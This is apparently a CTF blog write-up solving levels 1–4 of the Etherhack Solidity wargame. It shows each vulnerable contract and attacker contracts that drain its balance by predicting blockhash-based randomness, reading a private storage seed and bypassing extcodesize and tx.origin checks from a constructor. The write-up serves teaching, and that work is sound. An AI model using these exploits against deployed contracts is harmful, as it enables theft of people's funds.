 Title: Etherhacker wargame Lvl. 1-4
Date: 2019-1-14 10:01
Modified: 2019-1-14 10:01
Category: ctf
Tags: ctf, ethereum, solidity
Slug: Etherhacker_wargame
Authors: F3real
Summary: How to solve Etherhacker wargame lvl 1-4

Let's take a look at another interesting wargame based on solidity.
It can be found [here](https://etherhack.positive.com/#/)

[TOC]

## Azino 777

~~~solidity
pragma solidity ^0.4.16;

contract Azino777 {

  function spin(uint256 bet) public payable {
    require(msg.value >= 0.01 ether);
    uint256 num = rand(100);
    if(num == bet) {
        msg.sender.transfer(this.balance);
    }
  }

  //Generate random number between 0 & max
  uint256 constant private FACTOR =  1157920892373161954235709850086879078532699846656405640394575840079131296399;
  function rand(uint max) constant private returns (uint256 result){
    uint256 factor = FACTOR * 100 / max;
    uint256 lastBlockNumber = block.number - 1;
    uint256 hashVal = uint256(block.blockhash(lastBlockNumber));

    return uint256((uint256(hashVal) / factor)) % max;
  }

  function() public payable {}
}
~~~

We need to call `spin` function with correct bet. We see that it will be calculated based on `block.number - 1` in `random` function. To finish this challenge easily we just need to create contract with same random function. Transactions are going to execute in same block (and share same block variables) so both our contract and target will generate same random number.

We can convert address of contract to proper form from console using:
~~~javascript
web3.toChecksumAddress("<contract_instance>")
~~~

Solution:

~~~solidity
  ...
  Azino777 target = Azino777(targetAddress); 

  function attack() public payable {
    require(msg.value >= 0.01 ether);
    uint256 num = rand(100);
    target.spin.value(0.01 ether)(num);
  }
  ...
~~~

## Private Ryan

~~~solidity
pragma solidity ^0.4.16;

contract PrivateRyan {
  uint private seed = 1;

  function PrivateRyan() {
    seed = rand(256);
  }

  function spin(uint256 bet) public payable {
    require(msg.value >= 0.01 ether);
    uint256 num = rand(100);
    seed = rand(256);
    if(num == bet) {
        msg.sender.transfer(this.balance);
    }
  }

  //Generate random number between 0 & max
  uint256 constant private FACTOR =  1157920892373161954235709850086879078532699846656405640394575840079131296399;
  function rand(uint max) constant private returns (uint256 result){
    uint256 factor = FACTOR * 100 / max;
    uint256 blockNumber = block.number - seed;
    uint256 hashVal = uint256(block.blockhash(blockNumber));

    return uint256((uint256(hashVal) / factor)) % max;
  }

  function() public payable {}
}
~~~

Is almost the same challenge, but this time there is also random seed being used in calculating correct guess. We need to read it from contract storage before we create our contract to finish this challenge.

~~~javascript
web3.eth.getStorageAt(
  instanceAddress, 
  0,        //storage slot
  function (err, result) {
    console.log((web3.toHex(result))); 
  }
);
~~~

Solution:

~~~solidity
  PrivateRyan target = PrivateRyan(targetAddress);

  function attack(uint256 _seed) public payable {
    require(msg.value >= 0.01 ether);
    seed = _seed;
    uint256 num = rand(100);
    target.spin.value(0.01 ether)(num);
  }
~~~

## Wheel Of Fortune

~~~solidity
pragma solidity ^0.4.16;

contract WheelOfFortune {
  Game[] public games;

  struct Game {
      address player;
      uint id;
      uint bet;
      uint blockNumber;
  }

  function spin(uint256 _bet) public payable {
    require(msg.value >= 0.01 ether);
    uint gameId = games.length;
    games.length++;
    games[gameId].id = gameId;
    games[gameId].player = msg.sender;
    games[gameId].bet = _bet;
    games[gameId].blockNumber = block.number;
    if (gameId > 0) {
      uint lastGameId = gameId - 1;
      uint num = rand(block.blockhash(games[lastGameId].blockNumber), 100);
      if(num == games[lastGameId].bet) {
          games[lastGameId].player.transfer(this.balance);
      }
    }
  }

  function rand(bytes32 hash, uint max) pure private returns (uint256 result){
    return uint256(keccak256(hash)) % max;
  }

  function() public payable {}
}
~~~

This time `blockhash` is used as random number generator seed. We see that every new game entry checks if previous entry guess was correct.

The `blockhash` of current block, as a reminder, is always 0. 

We can abuse this fact since there is nothing stopping us simply calling this function twice in a row from our contract and triggering blockhash calculation for current block.

Other way would be abusing the fact that `blockhash` is saved only for last 256 blocks (older block number values will just return 0).

Solution:

~~~solidity
  ...
  WheelOfFortune target = WheelOfFortune(targetAddress);
  
  function attack(uint256 _bet) public payable {
    require(msg.value >= 0.02 ether);
    uint256 num  = rand(block.blockhash(block.number), 100);
    target.spin.value(0.01 ether)(num);
    target.spin.value(0.01 ether)(num);
  }
  ...
~~~

## Call Me Maybe

~~~solidity
contract CallMeMaybe {
    modifier CallMeMaybe() {
      uint32 size;
      address _addr = msg.sender;
      assembly {
        size := extcodesize(_addr)
      }
      if (size > 0) {
          revert();
      }
      _;
    }

    function HereIsMyNumber() CallMeMaybe {
        if(tx.origin == msg.sender) {
            revert();
        } else {
            msg.sender.transfer(this.balance);
        }
    }

    function() payable {}
}
~~~

We have two different checks to bypass, first we have modifier `CallMeMaybe` which checks if code size of `msg.sender` is greater then 0 and reverts. Second we have check that `tx.origin == msg.sender`.

Usually `tx.origin` is same as `msg.sender`, but if there are chained calls they will differ. For example if we have chain of calls A -> B -> C, for C, `msg.sender` will be address of B while `tx.origin` will be A.

To bypass these checks we will call target contract from constructor, since during contract initialization code size is 0. This will also bypass second check since we will have  `wallet -> attack contract -> target contract`.

~~~solidity
    CallMeMaybe target = CallMeMaybe(targetAddress);
    constructor() public {
        target.HereIsMyNumber();
    }    
~~~